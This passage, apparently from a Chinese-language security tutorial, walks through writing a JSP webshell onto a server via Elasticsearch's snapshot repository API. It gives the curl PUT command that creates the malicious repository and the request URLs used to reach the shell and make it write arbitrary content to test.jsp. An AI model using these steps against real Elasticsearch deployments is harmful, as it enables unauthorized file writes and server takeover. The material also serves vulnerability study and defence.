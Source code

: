 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCONPcQ9T7szwydu2V7I6F3boZ35eHftpIdP5C60Cv8xufca4hDXhl1eQ/640?wx_fmt=png)

**存储库验证并创建:**  

```
curl -XPUT "your-ip:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

访问

http://your-ip:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp

这就是我们写入的 webshell。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOXBIuOEwtSQ0bRv9A2Wgzxib2wXmlYa617ibwS5Z0Cjngfhg5WcUt9ichQ/640?wx_fmt=png)

该 shell 的作用是向 wwwroot 下的 test.jsp 文件中写入任意字符串

如：

http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=fish，我们再访问 / wwwroot/test.jsp 就能看到 fish 了：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOwxnqdnvdobQGyVYtar7GEkuNqib88qCg7718WWYR6sj7oMjGicyj2ogQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCONzzHY5hicGb9rflLtgLiaauWxeje5hIP4AQmrVxwMzTlZKibhxEywXQ7w/640?wx_fmt=png)